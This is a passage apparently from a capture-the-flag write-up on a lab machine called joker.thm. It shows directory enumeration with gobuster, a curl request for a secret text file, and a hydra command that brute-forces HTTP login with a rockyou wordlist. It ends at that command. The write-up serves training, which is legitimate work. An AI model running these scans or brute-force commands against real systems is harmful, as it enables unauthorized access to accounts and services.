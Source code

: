 ```jsx
000001114:   200        17 L     69 W       1116 Ch     "css"                                                                     
000001998:   200        34 L     221 W      4364 Ch     "img"                                                                     
000002020:   200        96 L     826 W      5954 Ch     "index.html"                                                              
000002946:   200        1162 L   5848 W     94994 Ch    "phpinfo.php"
```

`gobuster dir -u http://joker.thm -w /usr/share/wordlists/dirb/common.txt -b 403,404,500,501,502,503 -e -x php,txt,html -t 50`

```jsx
http://joker.thm/css                  (Status: 301) [Size: 304] [--> http://joker.thm/css/]
http://joker.thm/img                  (Status: 301) [Size: 304] [--> http://joker.thm/img/]
http://joker.thm/index.html           (Status: 200) [Size: 5954]
http://joker.thm/index.html           (Status: 200) [Size: 5954]
http://joker.thm/phpinfo.php          (Status: 200) [Size: 94733]
http://joker.thm/phpinfo.php          (Status: 200) [Size: 94733]
http://joker.thm/secret.txt           (Status: 200) [Size: 320]
```

`curl -iLX GET http://joker.thm/secret.txt`

```jsx
HTTP/1.1 200 OK
Date: Tue, 24 Dec 2024 10:47:48 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Wed, 09 Oct 2019 04:33:21 GMT
ETag: "140-59472c8e9c1ed"
Accept-Ranges: bytes
Content-Length: 320
Vary: Accept-Encoding
Content-Type: text/plain

Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

> **Login Brute Force & Internal System Investigation Phase**
> 

`nano users.txt`

```jsx
joker
batman
administrator
```

`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f joker.thm -t 50 -s 8080 -F http-get`
